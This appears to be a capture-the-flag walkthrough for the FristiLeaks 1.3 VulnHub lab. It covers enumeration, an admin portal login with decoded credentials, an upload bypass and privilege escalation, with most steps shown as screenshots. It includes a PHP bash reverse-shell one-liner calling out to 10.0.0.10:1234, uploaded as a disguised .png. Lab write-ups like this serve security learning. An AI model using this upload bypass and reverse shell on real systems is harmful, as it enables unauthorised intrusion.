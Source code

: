 # [FristiLeaks 1.3](https://www.vulnhub.com/entry/fristileaks-13,133/)

![fristileaks](img/fristileaks.png)

## Enum

- `nmap`:

![nmap](img/nmap.png)

- HTTP:

![fristi](img/fristi.png)

- `dirb`:

![dirb](img/dirb.png)

- **robots.txt**:

![robots.txt](img/dir.png)

These three directories display the same image:

![url](img/url.png)

The common point between **cola**, **beer** and **sisi** is that they are 3 drinks. If we go backward and take a look at the home page we see the following message: _Keep calm and drink **Fristi**_.

So we can try the following url: `http://192.168.43.17/fristi/` and bingo, ther is an admin portal:

![admin-portal](img/admin-portal.png)

## Admin portal

If we check the sources, we can see an interesting comment written by `eezeepz`:

![eezeepz](img/eezeepz.png)

And just below, a base64 encoded string: 

![base64-img](img/base64-img.png)

We can decode it via `$ cat b64 | base64 -d > image.png` in command line. Then we got an image:

![admin-password](img/admin-password.png)

So we try the credentials `eezeepz` as a login and `keKkeKKeKKeKkEkkEk` as a password:

![login-successful](img/login-successful.png)

## Reverse shell

![upload](img/upload.png)

Let's try to upload the image we decoded previously:

![upload-success](img/upload-success.png)

Yes, it works!

![upload-success 2](img/upload-success-2.png)

Let's try to upload a [PHP tiny reverse shell](https://gist.github.com/rshipp/eee36684db07d234c1cc) file with **.png** extension:

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/1234 0>&1'");
```

The file was uploaded, so we can use `nc` to get a shell:

![reverse-shell-success](img/reverse-shell-success.png)

![reverse-shell-success](img/reverse-shell-success-2.png)

## Privesc


![home](img/home.png)

In the home directory of the user eezeepz:

![notes](img/notes.png)

Ok so if we put some commands in a file called `runthis` in `/tmp`, they will be executed. I decided to change the permissions to access to `/home/admin` _(maybe I should have made a simple copy in `/tmp` to be more discreet)_:

![home-admin](img/home-admin.png)

![cryptpass](img/cryptpass.png)

![rot13](img/rot13.png)

![adminpass](img/adminpass.png)

![su-admin](img/su-admin.png)

## Road to root

![second-password rot13](img/second-password-rot13.png)

![second-password](img/second-password.png)

![fristigodshell](img/fristigodshell.png)

![.secret_admin_stuff](img/secret_admin_stuff.png)

![doCom](img/doCom.png)

![sudo-l](img/sudo-l.png)

![doCom-ls](img/doCom-ls.png)

![not-allowed](img/not-allowed.png)

![strings](img/strings.png)

![user-fristi](img/user-fristi.png)

![flag](img/flag.png)